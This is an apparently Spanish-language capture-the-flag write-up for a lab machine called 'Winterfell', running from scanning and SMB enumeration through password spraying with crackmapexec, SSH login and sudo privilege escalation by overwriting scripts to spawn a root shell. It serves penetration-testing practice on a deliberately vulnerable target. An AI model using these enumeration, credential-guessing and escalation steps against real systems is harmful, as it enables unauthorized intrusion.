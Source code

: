 Maquina: Winterfell

Autor: Zunderrub

Dificultad: Facil

![Captura de pantalla 2025-01-08 080844](https://github.com/user-attachments/assets/526de997-277e-4655-b712-6729ce7863cb)

ping 172.17.0.2 -c 1 

![Captura de pantalla 2025-01-08 080928](https://github.com/user-attachments/assets/0ef4977f-7b08-4ec8-b122-f1b24e11eb5a)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

![Captura de pantalla 2025-01-08 081029](https://github.com/user-attachments/assets/b897e695-8c4b-4b1d-9c10-42329ec6c4e6)

Vamos a la web, observamos la página de inicio que indica diario de Jon y los botones del navbar son no funcionales

![Captura de pantalla 2025-01-08 084916](https://github.com/user-attachments/assets/34efd52c-ff7d-4731-9b74-5f40c561c740)

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2

![Captura de pantalla 2025-01-08 081059](https://github.com/user-attachments/assets/e57a1613-2953-4b8f-b12e-b5be8a62e224)

Realizamos un escaneo de directorios y podemos ver que encontramos uno que se llama /dragon

Agregamos el directorio a la dirección web y vemos un archivo llamado EpisodioT1, el cual contiene los títulos de la primera temporada de juego de tronos

![Captura de pantalla 2025-01-08 081151](https://github.com/user-attachments/assets/e74e89aa-6b6b-4a77-8696-1cd37883c64c)

smbclient -L 172.17.0.2

Listamos el puerto abierto de smb y vemos que no tenemos acceso

![Captura de pantalla 2025-01-08 081209](https://github.com/user-attachments/assets/02127a29-308a-475e-9a16-7b075f5f901a)

enum4linux 172.17.0.2

Necesitamos algún nombre usuario, buscaremos usuarios válidos para smb. Usamos enum4linux

encontramos user Jon

![Captura de pantalla 2025-01-08 081241](https://github.com/user-attachments/assets/1ec7ccb1-d71e-4494-972a-71660386a7ae)

![Captura de pantalla 2025-01-08 081334](https://github.com/user-attachments/assets/b2be5355-152a-4484-9860-0e6abceaf070)

ahora debemos extraer el password para este usuario. Para ello, ya que la máquina trata de GOT suponemos que el password podría ser alguno de los títulos que encontramos, creamos una lista

nano passwords.txt

seacercaelinvierno 
elcaminoreal 
lordnieve
tullidosbastardosycosasrotas 
elloboyelleon 
unacoronadeoro 
ganasomueres 
porelladodelapunta 
baelor 
fuegoyhielo

crackmapexec smb 172.17.0.2 -u jon -p passwords.txt

Usamos Crackmapexec y encontramos el password para jon:seacercaelinvierno

![Captura de pantalla 2025-01-08 081627](https://github.com/user-attachments/assets/9de6bdc6-e6e4-4d03-92a8-929c4eec4a1f)

smbclient \\\\172.17.0.2\\shared -U jon

![Captura de pantalla 2025-01-08 081714](https://github.com/user-attachments/assets/9e03b99f-d3a1-4a35-8b2c-1e3cd234a7cf)

Nos conectamos a SMB usando las credenciales y podemos observar que tenemos acceso a un directorio llamado proteccion_del_reino

ls

get proteccion_del_reino

Extraemos el archivo proteccion_del_reino en nuestra máquina local

![Captura de pantalla 2025-01-08 081801](https://github.com/user-attachments/assets/4fbfccbe-16bd-46f1-a75d-51b1f3e865ee)

cat proteccion_del_reino

Podemos observar que el texto contiene un password, que a primera vista podemos ver que se trata de base 64

![Captura de pantalla 2025-01-08 081819](https://github.com/user-attachments/assets/a11f030f-3b1d-4eec-8e5d-5b89ec3227b9)

echo "aGlqb2RlbGFuaXN0ZXI0" | base64 -d

Decodificamos el mensaje y podemos observar que el password es hijodelanister

![Captura de pantalla 2025-01-08 081834](https://github.com/user-attachments/assets/41c4a308-c8d4-40d4-91a0-bde8da7dea3c)

ssh jon@172.17.0.2

Nos conectamos por SSH con las credenciales y podemos observar que ya tenemos acceso como jon

![Captura de pantalla 2025-01-08 081930](https://github.com/user-attachments/assets/4608ce5f-91c6-4232-9227-a0cd50e2aeaf)

ls

cat paraJon

sudo -l

Una vez dentro hacemos un ls y encontramos un archivo que contiene un mensaje sobre una herramienta, si hacemos un sudo -l podemos observar que podemos elevar privilegios como aria usando python3 y un archivo en Python que está oculto

ls -la

Listamos los archivos ocultos y si podemos observar el archivo.mensaje.py, al abrir el mensaje podemos ver que es un script que no nos ayudara mucho

![Captura de pantalla 2025-01-08 082009](https://github.com/user-attachments/assets/a1230086-e008-4c07-93f0-d63be8f80773)

rm -rf .mensaje.py

![Captura de pantalla 2025-01-08 082133](https://github.com/user-attachments/assets/e2d2e117-4c01-44e2-a313-a496737cd301)

nano .mensaje.py

import os;
os.system("/bin/bash")

![Captura de pantalla 2025-01-08 082732](https://github.com/user-attachments/assets/47242388-34b1-4c4f-a959-2a23d197a502)

sudo -u aria /usr/bin/python3 /home/jon/ .mensaje.py

![Captura de pantalla 2025-01-08 082743](https://github.com/user-attachments/assets/49083e2f-5d1e-4304-8fbd-6409df9e990a)

Observamos los permisos y vemos que no podemos editarlo, ya que no contamos con los permisos, lo que podemos hacer es eliminar el archivo y crear uno nuevo con el mismo nombre el cual contenga un comando para que nos genere una nueva shell. De esta manera podemos escalar privilegios como aria

sudo -l

Hacemos sudo -l y observamos que podemos escalar como daenerys

![Captura de pantalla 2025-01-08 084141](https://github.com/user-attachments/assets/3a380642-2d25-455d-a8ba-40d21427408c)

sudo -u daenerys ls /home/daenerys/

Lo que los binarios nos permiten es poder leer y listar archivos de propiedad de daenerys. Así que no estaría mal suponer que debemos leer algún archivo dentro del directorio home de ella. Primero listamos el directorio y podemos observar que tenemos un archivo llamado mensajeParajon

sudo -u daenerys cat /home/daenerys/mensajeParaJon

Leyendo el mensaje podemos observar que nos indica el password, y si suponemos bien el password debería ser drakaris

![Captura de pantalla 2025-01-08 084214](https://github.com/user-attachments/assets/20bf8196-71fa-40e9-9ea1-21102ac27954)

su daenerys

drakaris

Ingresamos las credenciales para este usuario y podemos comprobar que si es correcto y ya somos daenerys

![Captura de pantalla 2025-01-08 084241](https://github.com/user-attachments/assets/513553cf-21a1-4fae-b4e5-67d881fe25ee)

sudo -l

Una vez como este usuario buscamos como elevar privilegios y volvemos a realizar un sudo -l y podemos observar que podemos emplear bash y un archivo oculto

![Captura de pantalla 2025-01-08 084258](https://github.com/user-attachments/assets/bff51841-4619-409d-9344-6251b20c52aa)

cat /home/daenerys/.secret/.shell.sh

![Captura de pantalla 2025-01-08 084317](https://github.com/user-attachments/assets/85aaa4df-1124-410e-adf9-bef8c16754ac)

cd /home/daenerys/.secret/

ls

ls -la

Primero leemos el archivo y podemos ver que es una bash que establece conexión con otra dirección IP, pero si observamos los permisos esto lo tenemos nosotros, así que para elevar privilegios solo debemos editarlo

![Captura de pantalla 2025-01-08 084338](https://github.com/user-attachments/assets/04618182-d87f-4554-8403-ea911fb946d9)

nano .shell.sh

cat .shell.sh

#!/bin/bash

bash

![Captura de pantalla 2025-01-08 084708](https://github.com/user-attachments/assets/ba48a31f-611c-490a-8881-8cdc85e23009)

sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh

whoami

Para obtener el root solo modificamos el archivo de la siguiente manera y luego ejecutamos el archivo. De esta manera obtendríamos la shell con permisos de root. Culminando de manera exitosa la máquina

![Captura de pantalla 2025-01-08 084729](https://github.com/user-attachments/assets/713f3ca3-2e4c-41c6-8a99-ae2aa63d496a)
